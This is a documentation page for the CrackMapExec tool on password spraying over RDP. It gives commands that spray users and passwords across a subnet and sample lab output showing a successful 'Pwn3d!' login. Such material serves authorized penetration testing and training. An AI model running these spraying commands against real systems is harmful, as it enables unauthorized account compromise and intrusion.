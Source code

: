 # Password Spraying

#### Password spraying

```
#~ poetry run crackmapexec rdp 192.168.1.0/24 -u user -p password
```

```
$ poetry run crackmapexec rdp 192.168.133.157 -u ron -p October2021
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:October2021 
                                                                                                                                                                
$ poetry run crackmapexec rdp 192.168.133.157 -u rubeus -p October2021
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!)
```

#### Password spraying (without bruteforce)

```
#~ poetry run crackmapexec rdp 192.168.1.0/24 -u userfile -p passwordfile --no-bruteforce
```

Expected Results:

```
└─$ poetry run crackmapexec rdp 192.168.133.157 -u /tmp/users -p passwordfile --no-bruteforce
RDP         192.168.133.157 3389   DC01             [*] Windows 10 or Windows Server 2016 Build 17763 (name:DC01) (domain:poudlard.wizard)
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\ron:toto 
RDP         192.168.133.157 3389   DC01             [-] poudlard.wizard\demo:tata
RDP         192.168.133.157 3389   DC01             [+] poudlard.wizard\rubeus:October2021 (Pwn3d!
```

<figure><img src="../../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
By default CME will exit after a successful login is found. Using the `--continue-on-success` flag will continue spraying even after a valid password is found. Usefull for spraying a single password against a large user list.
{% endhint %}

